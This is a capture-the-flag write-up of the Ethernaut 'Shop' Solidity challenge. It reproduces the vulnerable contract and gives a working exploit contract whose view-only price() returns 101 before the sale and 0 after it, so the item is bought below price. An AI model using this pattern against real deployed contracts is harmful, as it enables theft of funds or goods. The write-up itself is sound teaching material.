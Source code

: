 # Writeup for Shop

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Can you get the item from the shop for less than the price asked?

Things that might help:

- Shop expects to be used from a Buyer
- Understanding restrictions of view functions

### Contract Explanation

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

<details>
<summary>Click to view the source contract and contract explanation</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}

```

The contract has two state variables named `price` and `isSold`. `price` is of type **uint256** and it is initialized to 100, while `isSold` is of type **bool**.

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

The function `buy()` initializes the variable `_buyer` of type `Buyer` interface with `msg.sender`. It then checks if the price offered by the buyer is greater than or equal to the current price and if the item has not been sold yet. If both conditions are met, the item is marked as sold and the price is updated to the buyer's price.

### Exploit

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

If we see the `buy()` function, in the if condition, it will check if the buyer's price is more than the current price or not. But the buyer's price is taken by making a call to the buyer. Once the conditions are satisfied, then it sets `isSold` to true and it sets the price by again making a call to the buyer.

So in our exploit contract, if we somehow return the price value `>100` for the first time it is called and if we return a value less than `<100` for the second time it is called, then our challenge will be solved.

But if we check the Buyer interface, we can find that `price()` is a view-only function, which means we cannot make any state changes in the `price()` function.

Once the if condition in `buy()` is satisfied, then `isSold` is set to true and then the price value is fetched from the buyer. Since `price()` function is a view function, we can check if `isSold` is true or false before returning the price. Based on that, we can write the exploit contract. Below is the exploit contract.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Ishop{
    function isSold() external view returns (bool);
    function buy()external;
}

contract ExploitShop{
    Ishop shop;
    constructor(address _addr){
        shop=Ishop(_addr);
    }

    function Exploit()public{
        shop.buy();
    }

    function price() external view returns(uint256){
        if(shop.isSold()){
            return 0;
        }
        return 101;
    }
}
```

If we see the `price()` function in our exploit contract, first it will check if the item is sold or not. If the item is sold, it will `return 0`, otherwise it will `return 101`.

Once we call the `Exploit()` function, our challenge will be solved.

### Key Takeaways

We should be careful when the logic in our contract is dependent on other contract calls. In this case, if the `price()` function is a `pure function` instead of a `view function`, then the function won't be able to read state variables from other contracts.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
